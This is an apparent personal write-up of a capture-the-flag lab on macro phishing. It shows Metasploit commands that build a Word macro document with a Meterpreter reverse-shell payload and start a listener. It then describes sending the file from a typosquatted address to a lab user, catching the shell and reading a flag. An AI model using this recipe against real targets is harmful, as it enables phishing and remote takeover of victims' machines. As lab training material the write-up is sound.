 # Phishing Day 10: He had a brain full of macros, and had shells in his soul.

## Learning Objectives
- Understand how phishing attacks work
- Discover how macros in documents can be used and abused
- Learn how to carry out a phishing attack with a macro


1. Create the payload (malicious document) using Metasploit Framework
   - use your Kali attackbox IP as the local host IP address (LHOST)

```
msfconsole 
set payload windows/meterpreter/reverse_tcp
use exploit/multi/fileformat/office_word_macro
set LHOST x.x.x.x
set LPORT port#
```


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-1.png" alt="day10-1"><br>





<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-2.png" alt="day10-2"><br>


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-3.png" alt="day10-3"><br>

	2. Listening for Incoming Connections (terminal 2)

  In a new terminal tab:

```
msfconsole

use multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST x.x.x.x

set LPORT port#

show options

exploit 
```

<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-4.png" alt="day10-4"><br>


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-5.png" alt="day10-5"><br>


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-6.png" alt="day10-6"><br>


3. Email the Malicious Document (using typosquatting technique)

My email sender app was located at:
http://10.10.240.185/mail/


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-7.png" alt="day10-7"><br>


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-8.png" alt="day10-8"><br>

Attach the payload:
 Navigate to: root > .msf4 > local > msf.docm > open

 
<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-9.png" alt="day10-9"><br>
<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-10.png" alt="day10-10"><br>

Address an email to the target user, marta@socmas.thm, convincing her to open the malicious file attachment.  The sender's email domain is a deliberate typo used to trick the receiver:

<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-11.png" alt="day10-11"><br>


Marta responded by acknowledging the message and advised that she would check the document immediately. 

<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-12.png" alt="day10-12"><br>

## Exploitation

Marta's action triggers the execution of the payload, which initiates a reverse shell connection back to my attacker machine IP address to its listening port:


<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-13.png" alt="day10-13"><br>

```
shell
whoami
cd c:/users/Administrator/Desktop
dir
type flag.txt
```

<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-14.png" alt="day10-14"><br>
<img src="https://raw.githubusercontent.com/Nisha318/Nisha318.github.io/master/assets/images/thm/advent-of-cyber/2024/day10-15.png" alt="day10-15"><br>


